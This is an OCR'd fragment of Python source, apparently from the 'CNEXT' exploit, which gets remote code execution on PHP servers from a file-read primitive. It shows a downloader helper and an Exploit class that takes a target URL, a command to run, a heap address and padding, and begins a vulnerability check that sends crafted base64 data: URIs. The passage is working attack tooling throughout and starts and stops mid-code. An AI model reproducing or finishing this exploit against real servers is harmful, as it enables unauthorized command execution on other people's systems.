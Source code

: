 ```python
        file_path = self.send(path).json()['response']
        
        if 'File type' in file_path:
            print(file_path)
            return b''
        
        response = self.session.get(file_path)
        data = response.content[6:]
        return data

    def data_decode(self, data:bytes)->bytes:
        data = data.decode('latin-1')
        return base64.decode(data + (4 - len(data) % 4) * '=')

@entry
@arg("url", "Target URL")
@arg("command", "Command to run on the system; limited to 0x140 bytes")
@arg("sleep", "Time to sleep to assert that the exploit worked. By default, 1.")
@arg("heap", "Address of the main zend_mm_heap structure.")
@arg(
    "pad",
    "Number of 0x100 chunks to pad with. If the website makes a lot of heap "
    "operations with this size, increase this. Defaults to 20.",
)
@dataclass
class Exploit:
    """CNEXT exploit: RCE using a file read primitive in PHP."""

    url: str
    command: str
    sleep: int = 1
    heap: str = None
    pad: int = 20

    def __post_init__(self):
        self.remote = Remote(self.url)
        self.log = logger("EXPLOIT")
        self.info = {}
        self.heap = self.heap and int(self.heap, 16)

    def check_vulnerable(self) -> None:
        """Checks whether the target is reachable and properly allows for the various
        wrappers and filters that the exploit needs.
        """
        
        def safe_download(path: str) -> bytes:
            try:
                return self.remote.download(path)
            except ConnectionError:
                failure("Target not [b]reachable[/] ?")
            

        def check_token(text: str, path: str) -> bool:
            result = safe_download(path)

            return len(set(result).intersection(set(text.encode()))) > 0

        text = tf.random.string(50).encode()
        base64 = b64(b'GIF89a' + text, misalign=True).decode()
        path = f"data:text/plain;base64,{base64}"
        
        result = safe_download(path)
        
```